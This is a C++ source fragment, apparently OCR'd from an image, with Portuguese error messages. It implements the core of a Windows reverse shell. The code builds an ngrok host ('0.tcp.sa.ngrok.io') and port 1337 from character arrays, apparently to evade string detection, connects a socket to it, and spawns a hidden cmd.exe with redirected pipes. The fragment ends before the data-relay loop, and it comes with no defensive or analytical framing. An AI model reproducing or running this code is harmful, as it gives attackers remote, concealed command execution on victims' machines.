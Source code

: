 ```cpp
    char NotNgrok[] = { '0', '.', 't', 'c', 'p', '.', 's', 'a', '.', 'n', 'g', 'r', 'o', 'k', '.', 'i', 'o', 0 };
    char NotPort[] = { '1', '3', '3', '7', 0 };

    if (getaddrinfo(NotNgrok, NotPort, &hints, &result) != 0) {
        fprintf(stderr, "Falha no endereço NGROK\n");
        WSACleanup();
        return 1;
    }

    sock = socket(result->ai_family, result->ai_socktype, result->ai_protocol);
    if (sock == INVALID_SOCKET) {
        fprintf(stderr, "Falha ao criar socket: %d\n", WSAGetLastError());
        freeaddrinfo(result);
        WSACleanup();
        return 1;
    }

    if (connect(sock, result->ai_addr, (int)result->ai_addrlen) == SOCKET_ERROR) {
        fprintf(stderr, "Falha ao conectar ao servidor: %d\n", WSAGetLastError());
        closesocket(sock);
        freeaddrinfo(result);
        WSACleanup();
        return 1;
    }

    freeaddrinfo(result);

    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;

    if (!CreatePipe(&hStdoutRead, &hStdoutWrite, &sa, 0)) {
        fprintf(stderr, "Falha ao criar pipe stdout\n");
        closesocket(sock);
        WSACleanup();
        return 1;
    }
    if (!CreatePipe(&hStdinRead, &hStdinWrite, &sa, 0)) {
        fprintf(stderr, "Falha ao criar pipe stdin\n");
        closesocket(sock);
        WSACleanup();
        return 1;
    }

    si.hStdInput = hStdinRead;
    si.hStdOutput = hStdoutWrite;
    si.hStdError = hStdoutWrite;

    LPWSTR cmd = charToLPWSTR("cmd.exe");

    if (!CreateProcess(NULL, cmd, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
        fprintf(stderr, "Falha ao criar o processo cmd.exe: %d\n", GetLastError());
        closesocket(sock);
        WSACleanup();
        free(cmd);
        return 1;
    }

    free(cmd);

    CloseHandle(hStdoutWrite);
    CloseHandle(hStdinRead);

```